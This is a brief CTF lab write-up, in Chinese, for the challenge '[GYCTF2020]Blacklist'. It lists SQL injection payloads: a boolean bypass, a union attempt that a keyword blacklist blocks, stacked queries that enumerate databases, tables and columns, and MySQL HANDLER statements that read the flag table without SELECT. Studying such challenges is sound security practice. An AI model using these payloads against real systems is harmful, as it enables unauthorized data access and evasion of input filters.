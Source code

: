 # [GYCTF2020]Blacklist（学习）
![](<./img/Pasted image 20221104194310.png>)
```sql
1' or 1=1 or '1
```
![](<./img/Pasted image 20221104194336.png>)
```sql
1' union select 1,2#
```
![](<./img/Pasted image 20221104194429.png>)

被过滤了一堆关键字呜呜呜

搜索得知这题关键为堆叠注入
```sql
1'; show databases#
```
![](<./img/Pasted image 20221104194636.png>)
```sql
1'; show tables#
```
![](<./img/Pasted image 20221104200143.png>)
```sql
1'; show columns from FlagHere#
```
![](<./img/Pasted image 20221104200444.png>)

接下来是学习时间（悲

![](<./img/Pasted image 20221104201132.png>)
```sql
0';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```
![](<./img/Pasted image 20221104201342.png>)

有点像文件句柄，学到了呜呜呜

#Web #SQL注入 #堆叠注入 